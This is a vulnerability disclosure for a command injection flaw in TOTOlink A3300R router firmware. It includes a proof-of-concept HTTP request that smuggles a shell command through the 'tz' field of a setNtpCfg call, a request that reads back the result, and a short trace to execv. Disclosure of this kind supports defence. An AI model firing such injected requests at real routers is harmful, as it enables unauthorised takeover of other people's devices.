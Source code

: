 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection
### Discoverer
Yangyi
## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setNtpCfg` request,`tz` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=F30C610BF2E2EC8B HTTP/1.1
Host: itotolink.net
Content-Length: 128
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/time.html?token=F30C610BF2E2EC8B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"tz":"UTC+0`ls>/web/567.txt`","enable":"1","server":"www.baidu.com*cn.pool.ntp.org*europe.pool.ntp.org","topicurl":"setNtpCfg"}
```

injection the command "ls>/web/567.txt"

![image-20240109132417822](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/5/img/image-20240109132417822.png)

check the result.

```
GET /567.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/time.html?token=F30C610BF2E2EC8B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109132422923](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/5/img/image-20240109132422923.png)

## Analysis

sub_410470 will handle the `setNtpCfg` request. sub_410470 get `tz` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109132650900](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/5/img/image-20240109132650900.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131330610.png)
